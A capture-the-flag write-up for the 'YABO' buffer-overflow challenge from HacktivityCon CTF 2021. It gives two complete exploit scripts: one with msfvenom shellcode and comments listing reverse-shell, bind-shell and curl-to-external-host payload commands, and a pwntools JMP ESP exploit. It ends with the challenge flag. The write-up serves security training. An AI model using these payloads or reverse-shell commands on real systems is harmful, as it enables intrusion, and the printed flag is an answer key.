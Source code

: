 ```yaml
---
name: YABO - Yet Another Buffer Overflow (2021)
event: HacktivityCon CTF 2021
category: Pwn
description: Writeup for YABO - Yet Another Buffer Overflow (pwn) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# YABO - Yet Another Buffer Overflow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=3195s "HacktivityCon 2021: YABO - Yet Another Buffer Overflow")

## Challenge Description

> Some certifications feature a basic windows buffer overflow. Is the linux version really that different?

## Solution

#### msfvenom_payload.py

{% code overflow="wrap" %}
```py
import socket

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('localhost', 9999))

print(client.recv(1024))

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b '\x00' -f python
# msfvenom -p linux/x86/exec CMD="curl https://en4i3omt29wvgco.m.pipedream.net" -b '\x00' -f python
# msfvenom -p linux/x86/shell_bind_tcp PORT=1337 -b '\x00' -f python
# msfvenom -p linux/x86/read_file PATH=flag.txt FD=4 -b '\x00' -f python

# FD = 4
buf = b"A" * 1044
buf += b"\xe2\x92\x04\x08"  # ropper found JMP ESP
buf += b"\x90" * 10
buf += b"\xd9\xec\xd9\x74\x24\xf4\x5a\x31\xc9\xbe\x8b\x25\xd9"
buf += b"\x0b\xb1\x12\x83\xc2\x04\x31\x72\x15\x03\x72\x15\x69"
buf += b"\xd0\x32\x3d\xd5\x1e\xc5\x42\x25\x7a\xf4\x8b\xe8\xfc"
buf += b"\x7f\xc8\x4a\xff\x7f\xcf\xaa\x89\x67\x46\x53\x33\x67"
buf += b"\x49\xa3\x44\xa5\xe9\x2a\x86\x8d\xee\x2c\x07\xee\x55"
buf += b"\x28\x07\xee\xa9\xfd\x87\x56\xa8\xfd\x87\xa6\x10\xfd"
buf += b"\x87\xa6\x66\x30\x07\x4e\xa3\x35\xf7\x70\x4a\xa5\x69"
buf += b"\xe8\xbd\x41\x12\x82\xc1"

client.send(buf)
print(client.recv(1024))
client.close()
```
{% endcode %}

#### pwntools_exploit.py

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './yabo'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 1044

jmp_esp = 0x80492e2

# Start program
io = start()

# Build the payload
payload = flat([
    asm('nop') * offset,
    jmp_esp,
    asm(shellcraft.cat('flag.txt', fd=4))
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(':', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{2f20f16416a066ca5d4247a438403f21}`
